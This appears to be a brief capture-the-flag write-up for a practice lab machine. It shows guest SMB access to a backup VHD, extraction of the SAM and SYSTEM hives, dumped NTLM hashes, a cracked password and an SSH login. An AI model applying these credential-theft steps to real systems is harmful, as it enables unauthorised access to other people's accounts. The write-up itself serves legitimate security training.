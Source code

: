 ![](./logo.png)

Scanning the box gives us a `smb` share with guest access.

Running:

```
smbclient.py guest@10.10.10.134
```

There is a `Backups` share that allows us access to a `.vhd` file.

I'm going to investigate with the tool `guestfs`. This allows me to mount the `.vhd` file locally and investigate.

This was okay to mount the small `.vhd` file, but downloading the ~5GB is an issue. In end downloading the large VHD was the option taken.

On the VHD file is the `SAM` and `SYSTEM` hives. These can be downloaded and the hashes of the users can be extracted.

Running `pwdump.py` gives us:

```
$ ./pwdump.py SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Cracking the hash for L4mpje gives use the password:

```
L4mpje
bureaulampje
```

This lets us login via `ssh` and grab the `user.txt`!

